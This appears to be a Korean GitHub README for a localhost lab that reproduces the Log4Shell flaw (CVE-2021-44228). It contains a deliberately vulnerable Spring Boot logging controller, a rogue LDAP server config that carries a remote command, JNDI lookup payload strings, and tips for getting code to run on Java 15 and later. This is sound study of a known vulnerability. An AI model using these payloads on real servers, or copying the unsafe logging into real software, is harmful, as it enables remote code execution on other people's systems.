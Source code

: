 # Log4j2 2.14.1 LDAP 원격 코드 실행 취약점(CVE-2021-44228) 확인

* 취약점 공지
  * https://nvd.nist.gov/vuln/detail/CVE-2021-44228

## [target-server](target-server)

* pom.xml : Log4j2 버전을 취약버전으로 낮춤

  ```xml
  <properties>
    <java.version>17</java.version>
    <!-- Spring Boot 2.7.1는 2.17.2 디펜던시를 가지지만, 일부러 버전을 낮춘다.-->
    <log4j2.version>2.14.1</log4j2.version>
  </properties>
  ```

* LoggingController : 사용자의 입력을 그대로 받아 로깅하는 컨트롤러 메서드 추가
  ```java
    @PostMapping("/form")
    public String form(String ldapString, RedirectAttributes rttr) {
      try {
        LOGGER.info("{}", ldapString);
        rttr.addFlashAttribute("exception", "예외 발생 X");
      } catch (Exception e) {
        rttr.addFlashAttribute("exception", "예외발생 O: " + e.getMessage());
      }
      return "redirect:/";
    }
  ```

* 브라우저 실행

  ![target-server-view.png](doc-resources/target-server-view.png)



### 동작 확인 내용

1. 실제로 `${jndi:ldap://127.0.0.1:19090/run}` 문자열을 서버로 전송했을 때, 서버가 `127.0.0.1:19090` 로 접속을 시도한다.

   ```
   2022-01-03 13:16:52.526  INFO 14736 --- [nio-8080-exec-7] o.m.t.c.LoggingController                : ${jndi:ldap://127.0.0.1:19090/run}
   2022-01-03 13:17:09,993 http-nio-8080-exec-10 WARN Error looking up JNDI resource [ldap://127.0.0.1:19090/run]. javax.naming.CommunicationException: 127.0.0.1:19090 [Root exception is java.net.ConnectException: Connection refused: connect]
   ...
   ```

   로컬의 19090 포트에 LDAP 서버가  켜져 있는 것은 아니여서 `Connection refused: connect` 예외로 에러 로그가 남음.

2. `LOGGER.info("{}", ldapString);` 코드에서 **JNDI 에러 예외가 던져지지 않았다.** 

   * 로그를 자세하게 확인하지 않고 지나가면 잊고 지나가기 쉬운 문제인 것 같다.





## [ldap-server](ldap-server)  

https://github.com/veracode-research/rogue-jndi  이 코드에서 Tomcat 관련된 부분만 조사해서, 단순한 Spring Boot 프로젝트로 구성했다.

Tomcat관련 부분만 조사한 이유는...

일단 대상 테스트 서버가 Spring Boot의 내장 톰켓 기반이여서, Tomcat만 조사하여도 취약점 동작을 확인할 수 있을 것으로 보여 그렇게 진행했다.

**명령문 준비**

단순 계산기만 수행하기에는 너무 단순해서 cmd 명령어를 조합해보았다.

* ldapserver-config.properties 

  ```properties
  # 타겟 서버의 윈도우 OS 버전을 텍스트 파일에 기록한 다음 메모장으로 여는 내용
  ldaptest.remote.command=cmd /c ver > test.txt && notepad test.txt
  ...
  ```

  

실제로 해보니 정말로 테스트 타겟서버의 실행파일 원격 실행이 가능했다. 확인 방법은 아래와 같다.

1. ldap-server 서버, traget-server 실행

   ```bash
   # LDAP 서버 실행
   C:\git-mklinkj\log4j2-test\ldap-server>mvnw clean spring-boot:run
   
   # 테스트 타겟 서버 실행
   C:\git-mklinkj\log4j2-test\target-server>mvnw clean spring-boot:run
   ```

   

2. 테스트 타겟 서버에서 `${jndi:ldap://127.0.0.1:19090/o=tomcat}` 문자열 전송 후 확인

   ![remote-code-executed](doc-resources/remote-code-executed.png)

   **target-server 프로젝트 루트에 test.txt파일이 만들어지고, 메모장을 통해 실행이 되었음.**

   




## Java 15이상 환경에서 동작확인시...

타겟 Tomcat에 보낼 Payload 생성에 Java의 JavaScript 구현 Nashorn을 사용하는데, Java 15부터 Nashorn이 완전히 제거되었다. 그래서 ldap 서버가 타겟 Tomcat으로 명령어는 보냈지만 명령어가 실행되지 않는 문제가 있었다.

이때는..  nashorn-core 또는 rhino-engine 둘 중 하나만 타겟 Tomcat 서버에 라이브러리로 추가해주면 되었다.

```xml
<dependency>
  <groupId>org.openjdk.nashorn</groupId>
  <artifactId>nashorn-core</artifactId>
  <version>${nashorn.version}</version>
</dependency>
```

```xml
<dependency>
  <groupId>org.mozilla</groupId>
  <artifactId>rhino-engine</artifactId>
  <version>${rhino-engine.version}</version>
</dependency>
```

* 참고
  * JEP 372: Remove the Nashorn JavaScript Engine
    * https://openjdk.java.net/jeps/372
  * Known problems and workarounds
    * https://apache.github.io/jmeter-site-preview/site/changes.html



## Maven POM 부모-자식 관계에서 프로젝트 실행

**버전 관리를 편하게 하려고** `부모-자식` 관계로 pom.xml을 수정했는데, 다음과 같이 부모 pom 이 있는 디렉토리에서 실행할 수 있다.

```bash
# 전체 테스트
$ mvnw clean test

# 백그라운드로 실행하지 않으므로 별도의 콘솔창에서 각각 실행햐아한다.
$ mvnw clean spring-boot:run -pl ldap-server
$ mvnw clean spring-boot:run -pl target-server

# 하위 프로젝트 디렉토리에 직접 들어가서 실행해도 된다.
$ cd target-server
$ mvnw clean spring-boot:run
```



## 후기

* 실제로 진행보니 이 취약점을 방치하면 정말 위험한 것 같다. 개발, 스테이징 환경에서 테스트를 해서 LDAP 접속을 발생시키는 부분이 없는지 확인 되어야할 것 같다.
* [rogue-jndi](https://github.com/veracode-research/rogue-jndi) 레파지토리 작성하신  [Michael Stepankin](https://twitter.com/artsploit) 님 덕분에 확인을 할 수 있게되어 감사합니다.  😄



### 면책 조항 

이 소프트웨어는 교육 목적 및/또는 사용자가 사전에 공격을 허용한 시스템 테스트용으로만 제공됩니다. <br> ([rogue-jndi](https://github.com/veracode-research/rogue-jndi)에도 이 문구를 추가 하셨길레 따라서 넣었다. 😓)
